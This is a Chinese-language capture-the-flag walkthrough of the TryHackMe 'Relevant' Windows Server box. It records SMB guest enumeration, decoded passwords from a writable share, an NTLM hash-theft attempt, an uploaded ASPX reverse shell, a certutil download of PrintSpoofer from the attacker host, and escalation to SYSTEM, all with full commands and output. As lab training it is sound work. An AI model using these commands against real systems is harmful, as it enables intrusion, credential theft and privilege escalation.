




# Recon
:::note
box 中途出现过崩溃, 重启后更换了 IP
:::

```sh
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 128 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 128 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  syn-ack ttl 128 Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server syn-ack ttl 128 Microsoft Terminal Services
|_ssl-date: 2026-09-19T05:30:43+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-09-18T05:25:54
| Not valid after:  2027-03-20T05:25:54
| MD5:   421a:91c3:dbab:e462:5fc2:9f1f:49fc:fb38
| SHA-1: dd5c:8cdf:fdf8:146f:84ea:3a7f:3034:ad49:f5c4:fb81
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQHi6nxU8uK5xEeeUBXP4XFzANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZWxldmFudDAeFw0yNjA5MTgwNTI1NTRaFw0yNzAzMjAwNTI1
| NTRaMBMxETAPBgNVBAMTCFJlbGV2YW50MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAz2lsGBSt5IrCOKcnD+W9IGDacVNfPYj/nzPKW+OxokJKAVyFO1O+
| csR/JwrfkfhaqGfxlX8NJSi29/jI+fns4QoN2LESOFeKZdc02o4w+wXN47AaFYJl
| TUwLlvhtQ941glXGi8Gm2u2pF/BCQFFH42TlUiE0hEMynuyrjQUcL8AOR5BzaLYZ
| UX7xKtyz+c/YejXGJ1E5UvaBwh7jQD7cbHFW4LlkBUGAoTrK0/z+G5otu3jknWN4
| MMsxMJienTwIvET5ortuhM63rRHIIdFqY4Jf8ovsf8PLeW6TI7qn2G1bMdlkGIDy
| g5tKSIHYtYqc/ljYoMLSFNpwTuHbaRdsdwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAA9Jpavx+1gy
| wqS/tm4up8zlLmE4MzQ89JKRnrcxCz8yRZzyyzIgfZXv3GSNcw+SaeYLVVT9Gqe1
| 8HPxk77ulcmKLStg2C37VsYD+tUV3Y4M+oiIUQYuLLGj1STMUV6Y9A2t9nLNwNoG
| Lc0zNefF1nG4slQ4+CZQ3ZkSnp5AhA2BI1xL+fUrwWSAexUD33WwCjzcKeKZXjlH
| 7CVSsGHSAYWLaS+t6GwCiW2jHNKMJbypCE5Ct1lphs6VUOHfyj9PuSm9R7hOCHAP
| 4kTigbz5DYwlVOVDhhr+J+H6XeXn4G2oP7xDroHPu+gYZ5yRgVMxbp4VzMLnqgh4
| PNHOeIK0in8=
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2026-09-19T05:30:03+00:00
49663/tcp open  http          syn-ack ttl 128 Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
49666/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 128 Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35819/tcp): CLEAN (Timeout)
|   Check 2 (port 25628/tcp): CLEAN (Timeout)
|   Check 3 (port 32369/udp): CLEAN (Timeout)
|   Check 4 (port 30521/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 1h23m59s, deviation: 3h07m50s, median: -1s
| smb2-time: 
|   date: 2026-09-19T05:30:06
|_  start_date: 2026-09-19T05:25:53
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-09-18T22:30:05-07:00
```

Windows 机器, 没有开放活动目录相关端口, 主机名为 `RELEANT` 开放 SMB 相关组件, 根据 workgroup 推测不是一台 DC 或不在域中. 
## smb
guest 认证成功, 可以列出共享
```sh
nxc smb 10.66.179.167 -u guest -p '' --shares
SMB         10.66.179.167   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.66.179.167   445    RELEVANT         [+] Relevant\guest: 
SMB         10.66.179.167   445    RELEVANT         [*] Enumerated shares
SMB         10.66.179.167   445    RELEVANT         Share           Permissions            Remark
SMB         10.66.179.167   445    RELEVANT         -----           -----------            ------
SMB         10.66.179.167   445    RELEVANT         ADMIN$                                 Remote Admin
SMB         10.66.179.167   445    RELEVANT         C$                                     Default share
SMB         10.66.179.167   445    RELEVANT         IPC$            READ                   Remote IPC
SMB         10.66.179.167   445    RELEVANT         nt4wrksv        READ,WRITE
```


`nt4wrksv` 共享可读写
```sh
smbclient.py guest:''@10.66.179.167
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
Type help for list of commands
# use nt4wrksv  
# ls
drw-rw-rw-          0  Sat Jul 25 21:46:04 2020 .
drw-rw-rw-          0  Sat Jul 25 21:46:04 2020 ..
-rw-rw-rw-         98  Sat Jul 25 15:35:44 2020 passwords.txt
```
有一个 `passwords.txt`, 下载后得到一串编码后的密码, 根据格式推测为 base64 加密:
```txt title='passwords.txt'
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```

解密后分别为:
```
Bob - !P@$$W0rD!123
Bill - Juw4nnaM4n420696969!$$$
```

两个凭据均有效, 但 Bill 被降级为 guest:
```sh
nxc smb 10.66.179.167 -u ./users  -p ./pass --continue-on-success
SMB         10.66.179.167   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.66.179.167   445    RELEVANT         [-] Relevant\Bob:Juw4nnaM4n420696969!$$$ STATUS_LOGON_FAILURE 
SMB         10.66.179.167   445    RELEVANT         [+] Relevant\Bill:Juw4nnaM4n420696969!$$$ (Guest)
SMB         10.66.179.167   445    RELEVANT         [+] Relevant\Bob:!P@$$W0rD!123
```
## RidBrute
`$IPC` 共享可读, 执行 rid 爆破:
```sh
nxc smb 10.66.179.167 -u Bob -p '!P@$$W0rD!123' --rid-brute
SMB         10.66.179.167   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.66.179.167   445    RELEVANT         [+] Relevant\Bob:!P@$$W0rD!123 
SMB         10.66.179.167   445    RELEVANT         500: RELEVANT\Administrator (SidTypeUser)
SMB         10.66.179.167   445    RELEVANT         501: RELEVANT\Guest (SidTypeUser)
SMB         10.66.179.167   445    RELEVANT         503: RELEVANT\DefaultAccount (SidTypeUser)
SMB         10.66.179.167   445    RELEVANT         513: RELEVANT\None (SidTypeGroup)
SMB         10.66.179.167   445    RELEVANT         1002: RELEVANT\Bob (SidTypeUser)
```
这解释了为什么 `Bill` 会被降级为 guest, 因为机器上没有对应的用户

# Web - 80
标准的 IIS 页面, 没什么信息.



目录爆破没给出什么有效信息
```sh
dirsearch -u http://10.66.179.167 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -e asp

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: asp | HTTP method: GET | Threads: 25 | Wordlist size: 38267

Output File: /root/wrk/reports/http_10.66.179.167/_26-09-19_05-32-00.txt

Target: http://10.66.179.167/

[05:32:00] Starting: 
[05:32:01] 404 -    2KB - /.aspx
[05:32:05] 404 -    2KB - /.ashx
[05:32:08] 404 -    2KB - /.asmx
[05:32:10] 404 -    2KB - /.css.aspx
[05:32:40] 404 -    2KB - /con
[05:32:40] 404 -    2KB - /.html.
[05:33:05] 404 -    2KB - /.captcha.aspx
[05:33:10] 404 -    2KB - /.htm.
[05:33:15] 404 -    2KB - /.csshandler.ashx
[05:33:38] 404 -    2KB - /.php.
[05:33:41] 404 -    2KB - /aux
[05:33:49] 404 -    2KB - /.aspx.aspx
[05:34:48] 404 -    2KB - /prn
[05:34:54] 404 -    2KB - /.search.
[05:35:35] 404 -    2KB - /.aspx.
[05:35:36] 404 -    2KB - /.js.aspx
[05:35:36] 404 -    2KB - /.pdf.
[05:36:44] 404 -    2KB - /.c.

Task Completed
```

## techstack
```http
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Sat, 25 Jul 2020 15:05:21 GMT
Accept-Ranges: bytes
ETag: "2db43349562d61:0"
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET
Date: Sat, 19 Sep 2026 05:29:38 GMT
Content-Length: 703
```

没啥有效信息

# Web - 49663
还是 IIS 默认页面:


```sh
dirsearch -u http://10.66.179.167:49663 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -e asp 
404     2KB  http://10.66.179.167:49663/.aspx
301    164B   http://10.66.179.167:49663/aspnet_client    -> REDIRECTS TO: http://10.66.179.167:49663/aspnet_client/
404     2KB  http://10.66.179.167:49663/.ashx
404     2KB  http://10.66.179.167:49663/.asmx
404     2KB  http://10.66.179.167:49663/.css.aspx
404     2KB  http://10.66.179.167:49663/con
404     2KB  http://10.66.179.167:49663/.html.
404     2KB  http://10.66.179.167:49663/.captcha.aspx
404     2KB  http://10.66.179.167:49663/.htm.
404     2KB  http://10.66.179.167:49663/.csshandler.ashx
404     2KB  http://10.66.179.167:49663/.php.
404     2KB  http://10.66.179.167:49663/aux
404     2KB  http://10.66.179.167:49663/.aspx.aspx
404     2KB  http://10.66.179.167:49663/prn
404     2KB  http://10.66.179.167:49663/.search.
404     2KB  http://10.66.179.167:49663/.aspx.
404     2KB  http://10.66.179.167:49663/.js.aspx
404     2KB  http://10.66.179.167:49663/.pdf.
```
没啥信息


## techstack
```http
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Sat, 25 Jul 2020 15:05:21 GMT
Accept-Ranges: bytes
ETag: "2db43349562d61:0"
Server: Microsoft-IIS/10.0
X-Powered-By: ASP.NET
Date: Sat, 19 Sep 2026 06:19:52 GMT
Content-Length: 703
```
没啥有趣的
# Auth as Bob
凭据有效, 但无法访问 RDP (没有 Pwn3d!)
```sh
nxc rdp 10.66.179.167 -u Bob -p '!P@$$W0rD!123'        
RDP         10.66.179.167   3389   RELEVANT         [*] Windows 10 or Windows Server 2016 Build 14393 (name:RELEVANT) (domain:Relevant) (nla:True)
RDP         10.66.179.167   3389   RELEVANT         [+] Relevant\Bob:!P@$$W0rD!123
```

共享方面也没什么变化:
```sh
nxc smb 10.66.179.167 -u Bob -p '!P@$$W0rD!123' --shares
SMB         10.66.179.167   445    RELEVANT         [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:RELEVANT) (domain:Relevant) (signing:False) (SMBv1:True)
SMB         10.66.179.167   445    RELEVANT         [+] Relevant\Bob:!P@$$W0rD!123 
SMB         10.66.179.167   445    RELEVANT         [*] Enumerated shares
SMB         10.66.179.167   445    RELEVANT         Share           Permissions            Remark
SMB         10.66.179.167   445    RELEVANT         -----           -----------            ------
SMB         10.66.179.167   445    RELEVANT         ADMIN$                                 Remote Admin
SMB         10.66.179.167   445    RELEVANT         C$                                     Default share
SMB         10.66.179.167   445    RELEVANT         IPC$            READ                   Remote IPC
SMB         10.66.179.167   445    RELEVANT         nt4wrksv        READ,WRITE
```

## Rpc Enum
把视角转向 rpc, 可以认证:
```sh
rpcclient -I 10.66.179.167 -U Bob%'!P@$$W0rD!123' RELEVANT
rpcclient $> getusername
Account Name: Bob, Authority Name: RELEVANT
```

似乎没有读取共享信息的权限:
```sh
rpcclient $> netsharegetinfo nt4wrksv 
result was WERR_ACCESS_DENIED
rpcclient $> netshareenumall 
result was WERR_ACCESS_DENIED
```

尝试读取用户信息, 根据这篇文章, `NT_STATUS_CONNECTION_DISCONNECTED` 即协议太老了
```sh
rpcclient $> queryuser 1002
result was NT_STATUS_CONNECTION_DISCONNECTED
rpcclient $> queryuser 500 
result was NT_STATUS_CONNECTION_DISCONNECTED
```

# nt4wrksv2shell
## hashsteal
尝试窃取 hash:
```sh
ntlm_theft -g all -s 10.66.76.106 -f theft
Created: theft/theft.scf (BROWSE TO FOLDER)
Created: theft/theft-(url).url (BROWSE TO FOLDER)
Created: theft/theft-(icon).url (BROWSE TO FOLDER)
Created: theft/theft.lnk (BROWSE TO FOLDER)
Created: theft/theft.rtf (OPEN)
Created: theft/theft-(stylesheet).xml (OPEN)
Created: theft/theft-(fulldocx).xml (OPEN)
Created: theft/theft.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: theft/theft-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: theft/theft-(includepicture).docx (OPEN)
Created: theft/theft-(remotetemplate).docx (OPEN)
Created: theft/theft-(frameset).docx (OPEN)
Created: theft/theft-(externalcell).xlsx (OPEN)
Created: theft/theft.wax (OPEN)
Created: theft/theft.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: theft/theft.asx (OPEN)
Created: theft/theft.jnlp (OPEN)
Created: theft/theft.application (DOWNLOAD AND OPEN)
Created: theft/theft.pdf (OPEN AND ALLOW)
Created: theft/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: theft/theft.library-ms (BROWSE TO FOLDER)
Created: theft/Autorun.inf (BROWSE TO FOLDER)
Created: theft/desktop.ini (BROWSE TO FOLDER)
Created: theft/theft.theme (THEME TO INSTALL)
Created: theft/theft.bat (BROWSE TO FOLDER)
Generation Complete.

smbclient.py guest:''@10.66.179.167
# put theft.lnk
# ls
drw-rw-rw-          0  Sat Sep 19 06:40:21 2026 .
drw-rw-rw-          0  Sat Sep 19 06:40:21 2026 ..
-rw-rw-rw-         98  Sat Jul 25 15:35:44 2020 passwords.txt
-rw-rw-rw-       2164  Sat Sep 19 06:46:27 2026 theft.lnk
```

但, `Responder` 里始终没有回应:
```sh
root@ip-10-66-76-106:~/wrk# responder -I ens5
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[*] Tips jar:
    USDT -> 0xCc98c1D3b8cd9b717b5257827102940e4E17A19A
    BTC  -> bc1q9360jedhhmps5vpl3u05vyg4jryrl52dmazz49

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]
    DHCPv6                     [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [ens5]
    Responder IP               [10.66.76.106]
    Responder IPv6             [fe80::ff:c4ff:fe1f:4f43]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-R2JKUF7L0MR]
    Responder Domain Name      [16WH.LOCAL]
    Responder DCE-RPC Port     [46864]

[*] Version: Responder 3.2.2.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>

[+] Listening for events...
```
## nt4wrksv2web
所有的地方似乎都滴水不漏, 不过可写的 nt4wrksv 共享究竟对应哪个目录还是个谜. 直到我在 Web 上测试了 `nt4wrksv`:


`passwords.txt` 也可以在其中找到:


也就是说, nt4wrksv 共享映射到了 Web 目录 `http://10.66.137.211:49663/nt4wrksv/` 下, 其是一个 IIS, 会执行 ASP 文件:

::github{repo="borjmz/aspx-reverse-shell"}

# shell as iis
```powershell
nc -lvvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.66.137.211 50019
Spawn Shell...
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


c:\windows\system32\inetsrv>whoami
whoami
iis apppool\defaultapppool

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

有 `SeImpersonatePrivilege` 权限, 采用 `PrintSpoofer`

## PrintSpoofer
::github{repo="itm4n/PrintSpoofer"}

下载并运行, 但是...这么做没感觉啊..
```cmd
C:\Users\Bob\Desktop>certutil.exe -urlcache -f http://10.66.76.106:8080/PrintSpoofer64.exe PrintSpoofer64.exe
certutil.exe -urlcache -f http://10.66.76.106:8080/PrintSpoofer64.exe PrintSpoofer64.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\Bob\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Bob\Desktop

09/19/2026  12:26 AM    <DIR>          .
09/19/2026  12:26 AM    <DIR>          ..
09/19/2026  12:26 AM            27,136 PrintSpoofer64.exe
07/25/2020  08:24 AM                35 user.txt
               2 File(s)         27,171 bytes
               2 Dir(s)  20,658,647,040 bytes free

C:\Users\Bob\Desktop>.\PrintSpoofer64.exe -i -c powershell.exe
.\PrintSpoofer64.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>
```

# shell as system
```pwsh
PS C:\Windows\system32> whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeAuditPrivilege                          Generate security audits                                           Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeTrustedCredManAccessPrivilege           Access Credential Manager as a trusted caller                      Enabled
SeRelabelPrivilege                        Modify an object label                                             Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

PS C:\Windows\system32> ipconfig
ipconfig

Windows IP Configuration

Ethernet adapter Ethernet 3:

   Connection-specific DNS Suffix  . : ec2.internal
   Link-local IPv6 Address . . . . . : fe80::c80f:ccc3:ba4d:50ca%7
   IPv4 Address. . . . . . . . . . . : 10.66.137.211
   Subnet Mask . . . . . . . . . . . : 255.255.192.0
   Default Gateway . . . . . . . . . : 10.66.128.1

Tunnel adapter Local Area Connection* 2:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : 2001:0:14c9:dc0e:30bf:36c7:f5bd:762c
   Link-local IPv6 Address . . . . . : fe80::30bf:36c7:f5bd:762c%3
   Default Gateway . . . . . . . . . : ::

Tunnel adapter isatap.ec2.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : ec2.internal

PS C:\Windows\system32> gc C:\Users\Administrator\Desktop\root.txt
gc C:\Users\Administrator\Desktop\root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
```